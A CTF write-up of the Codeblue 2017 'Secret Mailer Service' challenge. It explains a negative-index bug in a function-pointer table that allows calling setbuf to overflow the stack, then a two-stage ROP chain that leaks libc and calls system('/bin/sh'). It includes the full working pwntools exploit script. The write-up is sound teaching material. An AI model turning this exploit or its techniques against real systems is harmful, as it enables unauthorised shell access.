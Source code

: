 ```yaml
---
title: Codeblue CTF 2017 - Secret Mailer Service
date: '2017-11-11'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_codeblue2017
- writeup
- codeblue2017
tags:
- pwn
- rop
- overflow
- setbuf
authors:
- dp1
---
```


<script type="text/javascript" async
  src="https://cdn.rawgit.com/mathjax/MathJax/2.7.1/MathJax.js?config=TeX-MML-AM_CHTML">
</script>
<script type="text/x-mathjax-config">
MathJax.Hub.Config({
  TeX: { equationNumbers: { autoNumber: "AMS" } },
  tex2jax: {
    inlineMath: [['$','$'], ['\\(','\\)']],
    processEscapes: true
  }
});
</script>

For this challenge we're given the binary of a service, `mailer`. There are 5 letters allocated on the stack which we can work on, and every time a letter is referenced the code checks if the index is valid - no exploits there. The service allows us to write, delete and post letters, where posting a letter really means writing out its contents to `/dev/null` with the ability to use a filter. It's in the filter selection that we find our vulnerability:

```cpp
int post_letter(Letter *letters, FILE *s)
{
    int v3;
    int v4;

    puts("\nWhich letter do you want to post?");
    printf("ID (0-%d): ", 4);
    v4 = read_number();
    if ( v4 < 0 || v4 > 4 || !letters[v4].present )
        return puts("Invalid ID.");
    puts("\nWhich filter do you want to apply?");
    filter_menu();
    v3 = read_number();
    if ( v3 > 2 )
        return puts("Invalid filter.");
    filters[v3](s, letters[v4].data, letters[v4].length);
    return puts("\nDone!");
}
```

The filter id is only checked to be <= 2 and not >= 0. This allows us to input a negative number in there and, since the filters are implemented as a lookup table of function addresses, we can basically call whatever function we want, as long as the parameters are compatible. What I did was call the setbuf entry in plt by using index -15, thus setting the data of one of the filters as the buffer for `/dev/null`. The nice part here is that libc assumes this buffer to be at least 8192 bytes long, so by posting other letters we can overflow it.

Let's have a quick look at how a letter is saved in memory:

```cpp
00000000 Letter          struc ; (sizeof=0x108, mappedto_5)
00000000 present         dd ?
00000004 length          dd ?
00000008 data            db 256 dup(?)
00000108 Letter          ends
```

And at the stack of the main loop (please note this is the inverted stack layout used by ida, lower addresses are on top):

```cpp
-0000053C stream          dd ?                    ; /dev/null
-00000538 var_538         dd ?
-00000534 var_534         dd ?
-00000530 data            Letter 5 dup(?)
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The logical thing to do now is overflow the buffer for the last letter, getting full control of the return address while leaving the other entries free for our use - remember that to overflow the buffer we have to post other letters' contents. Unfortunately, we still don't know any libc address, so that's what we're going to focus on next. I did it in a quite convoluted way, but a way I liked: I realized that we could return first to the `read_letter` function, whose role is to read a string into a buffer, and give it the address of some free memory area in order to write a format string there, and then call `printf` to leak a plt address. The end of this first step is returning back to the main loop, now knowing libc's base address.

For the second and last step, I used the same setbuf and read_letter calls, only this time providing `"/bin/sh"` instead of `"%s"` to the latter. Then the logical thing was to call `system` on the buffer, getting a shell on the remote server. A couple of commands later, I got this:
`CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}`

Hell, this one took me a long time to figure out and it was only meant to be a warmup?

---

This is the full exploit script:

```python
from pwn import *

def chunks(data, step):
	for i in range(0, len(data), step):
		yield data[i:min(i+step, len(data))]

def add_letter(r, letter):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('Input your contents:')
	r.sendline(letter)

def delete_letter(r, letterid):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))

def post_letter(r, letterid, filterid):
	r.recvuntil('> ')
	r.sendline('3')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))
	r.recvuntil('> ')
	r.sendline(str(filterid))


libc = ELF('./libc.so.6')

r = remote('sms.tasks.ctf.codeblue.jp', 6029)
#r = process('./mailer')


### First step: obtain libc base address

buf_addr = 0x0804B040
p = 'A' * (256 + 12)

# write the format string using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(4)

# call printf("%s", plt.atoi)
p += p32(0x080484C0)
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(0x0804B03C) # got address for atoi

# call main_loop once again
p += p32(0x08048BD0)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4');
r.recvuntil(':)')
r.sendline('%s')
r.readline()
dump = r.readline()

atoi_addr = ord(dump[0]) + (ord(dump[1]) << 8) + (ord(dump[2]) << 16) + (ord(dump[3]) << 24)
print 'Atoi addr: 0x%x' % atoi_addr
libc_addr = atoi_addr - libc.symbols['atoi']
print 'Libc base: 0x%x' % libc_addr


### Second step: call system("/bin/sh")

p = 'A' * (256 + 12)

# write /bin/sh using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(16)

# call system("/bin/sh")
p += p32(libc_addr + libc.symbols['system'])
p += p32(0x08048dab) #pop:ret
p += p32(buf_addr)

# call fail
p += p32(0x0804868B)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4')
r.recvuntil(':)')
r.sendline('/bin/sh')

r.interactive()

```
